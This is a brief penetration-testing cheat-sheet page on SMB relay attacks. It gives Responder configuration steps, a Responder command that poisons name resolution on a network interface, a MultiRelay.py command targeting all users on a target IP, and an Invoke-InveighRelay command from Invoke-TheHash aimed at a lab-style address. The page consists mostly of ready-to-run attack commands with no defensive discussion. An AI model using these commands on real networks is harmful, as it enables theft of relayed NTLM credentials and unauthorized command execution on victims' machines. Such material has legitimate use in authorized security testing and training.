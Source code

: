 # SMB Relay

### MultiRelay.py

For SMB Relay to be possible, you must turn off SMB and HTTP within the responder config file (you can change it back when you have finished)

Set responder.conf to:

![](<../../.gitbook/assets/image (5) (1).png>)

Then run responder:

```
sudo python3.9 /usr/share/responder/Responder.py -I eth0 -w -f -v
```

Then run the following in another terminal session

```
sudo python3.9 /usr/share/responder/tools/MultiRelay.py -t <target_IP> -u ALL
```

### Inveigh Relay

Session attack requires SMB tools from Invoke-TheHash

{% embed url="https://github.com/Kevin-Robertson/Invoke-TheHash" %}

```
Invoke-InveighRelay -ConsoleOutput Y -Target 10.0.2.110 -Command "...."
```
